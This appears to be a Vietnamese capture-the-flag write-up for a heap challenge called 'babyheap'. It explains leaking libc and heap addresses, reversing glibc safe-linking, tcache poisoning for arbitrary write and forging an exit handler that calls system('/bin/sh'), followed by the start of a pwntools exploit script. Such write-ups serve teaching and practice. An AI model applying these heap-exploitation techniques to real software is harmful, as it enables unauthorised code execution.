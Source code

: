 Cái này mọi người có thể đọc ở [đây](https://m101.github.io/binholic/2017/05/20/notes-on-abusing-exit-handlers.html)
### Exploit

* Đầu tiên `malloc` `9` chunks với size mà khi `free` sẽ không bị đưa vào fastbin. Sau đó `free` `8` chunks đầu. Gọi hàm `Show` để leak libc và heap
* Ở đây con trỏ `fd` trên heap sẽ được `xor` trước khi đặt vào. Nó sử dụng safe linking, `xor` với địa chỉ heap shift `12` bit

```cpp
#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
#define REVEAL_PTR(ptr)  PROTECT_PTR (&ptr, ptr)
```

* Việc đưa nó về con trỏ ban đầu cũng đơn giản vì `12` bits cuối sẽ giữ nguyên
* Ăn trộm mã giải trên gg thì mình có

```python
def deobfuscate(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val
```

* Rồi bầy giờ có libc và heap rồi thì exploit cái `tcache` để có arbitrary write
* Có libc rồi thì sẽ leak được `ld` để có `_dl_fini`
* Tóm lại cái fake `exit_function` struct sẽ như này sau khi fake

![](https://hackmd.io/_uploads/Sy1EOe16h.png)

* `func` trỏ đến `system`, `arg` trỏ đến `/bin/sh`

![](https://hackmd.io/_uploads/rkIEOg1a2.png)

* Chạy trên server và không có tác dụng, vì cái offset của `ld` sẽ khác, trên local thì là `0x15d30` còn trên server sẽ thay đổi 1 chút là `0x15c30`

![](https://hackmd.io/_uploads/HkgB2nW6h.png)

* Bài này có lẽ sau khi có `ld` là sẽ có thể đọc `ld` để leak `PIE` nữa nhưng mình quên

Script

```python
from pwn import *

slnaf = lambda delim, data: p.sendlineafter(delim, data)
saf = lambda delim, data: p.sendafter(delim, data)

elf = context.binary = ELF('babyheap')
libc = ELF('libc.so.6')
ld = ELF('ld-linux-x86-64.so.2')


def create_student(i, length, name):
    slnaf(b'our choice: ', b'1')
    slnaf(b'Where to put that student in the database: ', str(i).encode())
    slnaf(b'Length of that student\'s name: ', str(length).encode())
    slnaf(b'Enter the name: ', name)
def show(i):
    slnaf(b'your choice: ', b'2')
    slnaf(b'Input student ID: ', str(i).encode())
def delete(i):
    slnaf(b'your choice: ', b'3')
```